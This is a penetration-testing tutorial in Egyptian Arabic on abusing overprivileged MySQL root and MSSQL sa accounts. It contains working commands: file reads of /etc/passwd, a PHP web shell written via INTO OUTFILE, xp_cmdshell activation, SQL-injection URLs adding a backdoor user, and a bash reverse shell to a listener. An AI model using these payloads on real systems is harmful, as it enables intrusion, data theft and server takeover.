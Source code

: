 # **1. إيه هو Overprivileged Database Users (root, sa)؟**

## **الشرح العميق:**
"Overprivileged Database Users" يعني إن مستخدمين قاعدة البيانات (زي "root" في MySQL أو "sa" في MSSQL) عندهم صلاحيات زيادة عن اللازم، يعني بيسمحوله يعملوا أكتر مما المفروض يحتاجوه لشغلهم. في العادي، المستخدمين دول بيكونوا Admins لقاعدة البيانات، لكن المشكلة لما يتسابوا مفتوحين أو يتستخدموا في تطبيقات الويب من غير ما يتحددوا صلاحياتهم صح.

- **root (في MySQL/PostgreSQL):** المستخدم الافتراضي بتاع قاعدة البيانات في لينكس، عنده كل الصلاحيات: يشوف، يعدل، يمسح، وينفذ أوامر على النظام لو السيرفر مضبوط غلط.
- **sa (في MSSQL):** المستخدم الافتراضي في Microsoft SQL Server، بيديه تحكم كامل في قاعدة البيانات، وممكن ينفذ أوامر على النظام لو مفعل XP_CMDSHELL.

لو التطبيق بيتصل بقاعدة البيانات باستخدام المستخدمين دول بدون قيود، المهاجم لو لقى ثغرة (زي SQL Injection) يقدر يستغلهم عشان يتحكم في كل حاجة.

## **الأدوات والأوامر العملية:**
### 1. **فحص مستخدم MySQL:**
   - لو وصلت لـ Shell:
     - `mysql -u root -p` -> لو دخلت من غير كلمة سر، يبقى root مفتوح.
   - `SHOW GRANTS;` -> لو رجع `GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' WITH GRANT OPTION`، يعني صلاحيات مفتوحة.

### 2. **فحص مستخدم sa في MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو دخلت، شغل:
     - `SELECT IS_SRVROLEMEMBER('sysadmin', 'sa');` -> لو رجع `1`، يعني sa هو الأدمن.

### 3. **فحص من الويب:**
   - لو لقيت config.php مكشوف:
     - `cat /var/www/html/config.php` -> `$db_user = "root"; $db_pass = "";`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب البواب بتاع العمارة يتحكم في كل الأدوار بدل ما يفتح الباب بس! root وsa دول زي الباشا بتاع قاعدة البيانات، لو مسكتهم، بقيت الكبير بتاع كل حاجة."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
المستخدمين دول خطيرين لأنهم بيدوك التحكم الكامل في قاعدة البيانات، وأحيانًا في السيرفر نفسه لو فيه إعدادات ضعيفة. لو المهاجم قدر يوصلهم:
- **سرقة بيانات:** يشوف كل الجداول (زي بيانات العملاء أو كلمات السر).
- **تعديل أو تدمير:** يمسح قاعدة البيانات أو يغير فيها.
- **تصعيد صلاحيات:** ينفذ أوامر على النظام (زي كتابة ملفات أو فتح Shell).

في الـ Pentesting، لو لقيت إن التطبيق بيستخدم root أو sa بصلاحيات مفتوحة، ده بيكون كنز لأنه بيفتحلك كل الأبواب.

## **الأدوات والأوامر العملية:**
### 1. **استغلال root في MySQL:**
   - لو وصلت لـ MySQL كـ root:
     - `SELECT LOAD_FILE('/etc/passwd');` -> لو نجح، يعني تقدر تقرا ملفات النظام.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';` -> تكتب Shell.

### 2. **استغلال sa في MSSQL:**
   - لو وصلت كـ sa:
     - `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`.
     - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
     - `EXEC xp_cmdshell 'whoami';` -> لو رجع `nt authority\system`، يبقى سيطرت على السيرفر.

### 3. **SQL Injection للوصول:**
   - لو موقع فيه ثغرة:
     - `http://target.com/user?id=1; SELECT USER(); --` -> لو رجع `root@localhost`، يبقى التطبيق بيستخدم root.

## **خلاصة بالعامية المصرية:**
"المستخدمين دول زي ما تكون سايب مفتاح العربية لأي حد، لو مسكوه، هياخدوا العربية كلها! خطيرين لأنهم بيدوك كل حاجة، من البيانات لحد السيرفر نفسه."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الصلاحيات الزيادة دي عشان تاخد وصول أعلى أو تتحكم في النظام كله.
- **مثال واقعي:** لو لقيت إن تطبيق ويب بيستخدم root في MySQL، تقدر تكتب ملف Shell وتتصل بالسيرفر.

## **خلاصة بالعامية المصرية:**
"لما تلاقي root أو sa مفتوحين، زي ما تكون لقيت مفتاح السكة الحديد! بتستغلهم عشان تفتح كل الأبواب وتبقى الكبير بتاع اللعبة."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7 (لينكس).
  - Port 1433: MSSQL (ويندوز).

## **الخطوة 2: البحث عن الوصول**
- في لينكس:
  - `mysql -u root -p -h 192.168.1.10` -> جرب بدون كلمة سر أو "root".
- في ويندوز:
  - `sqlcmd -S 192.168.1.10 -U sa -P "sa"` -> جرب كلمات سر ضعيفة زي "admin".

## **الخطوة 3: استغلال عبر الويب**
- لو موقع فيه SQL Injection:
  - `http://192.168.1.10/user?id=1; SELECT USER(); --`.
  - لو رجع `root@localhost` أو `sa`:
    - MySQL: `http://192.168.1.10/user?id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --`.
    - MSSQL: `http://192.168.1.10/user?id=1; EXEC xp_cmdshell 'net user hacker pass123 /add'; --`.

## **الخطوة 4: التحقق والتصعيد**
- في MySQL:
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> لو رجع `www-data`:
    - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
    - `nc -lvnp 4444` -> Shell.
- في MSSQL:
  - لو نجح الأمر، ادخل كـ `hacker` وشوف:
    - `whoami` -> لو `system`، نجحت.

## **الخطوة 5: تصعيد كامل**
- في لينكس:
  - من الـ Shell: `id` -> `www-data` -> `sudo -l` -> لو لقيت شيء، استغله.
- في ويندوز:
  - `net localgroup administrators hacker /add` -> تصعد لأدمن.

## **الخطوة 6: توثيق**
- سجل إنك لقيت root/sa مفتوحين.
- قدم تقرير يوضح إزاي استخدمتهم للوصول للنظام.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح القصر، فتحته، لعبته فيه، وطلعت الكبير بتاع الحتة! root وsa لما يكونوا مفتوحين، يبقوا طريقك للنصر في اللعبة."

---

# **الخلاصة النهائية:**
Overprivileged Database Users زي root وsa هما ثغرة كبيرة لأنهم بيدوك تحكم كامل في قاعدة البيانات وأحيانًا السيرفر. في الـ Pentesting، دور عليهم في الإعدادات أو استغلهم من ثغرات زي SQL Injection، واستخدمهم عشان تاخد Shell أو تصعد صلاحياتك. وري العميل إن النظام بتاعه زي بيت من غير حراس لو سيب المستخدمين دول مفتوحين! بالأدوات دي، تبقى البطل بتاع الساحة!